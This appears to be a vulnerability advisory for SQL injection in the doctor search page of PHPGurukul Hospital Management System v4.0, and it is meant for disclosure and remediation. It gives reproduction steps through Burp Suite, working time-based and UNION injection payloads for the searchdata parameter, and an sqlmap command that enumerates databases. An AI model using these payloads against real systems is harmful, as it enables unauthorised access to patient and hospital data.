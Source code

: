 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/search.php`                                              |
| **Affected Parameter**| `searchdata`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind and Union SQL injection vulnerability exists in the `searchdata` parameter  of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering  with union and time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page and autheticate, then search anything on search bar which redirects to `search.php`.
- Fill any data you wish on search bar then turn on intercept. 

```
http://192.168.137.89/hospital/hms/doctor/search.php
```

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/2.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `searchdata` field to identify injection points.
- Save the modified HTTP request as `sql-doctor-search` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/3.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/4.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `searchdata` field to test time-based and Union SQL injection manually:

```sql
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchdata=sqliTtest' AND (SELECT 1999 FROM (SELECT(SLEEP(5)))vfwq) AND 'QENh'='QENh&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: searchdata=sqliTtest' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176707a71,0x61474b7357686d67784f74486a517671786974734f734949635872704967634564416370754d4d4e,0x716b7a7671)-- -&search=

```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql-doctor-search --dbs
```

- This command uses the `sql` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/6.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/7.png)

---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
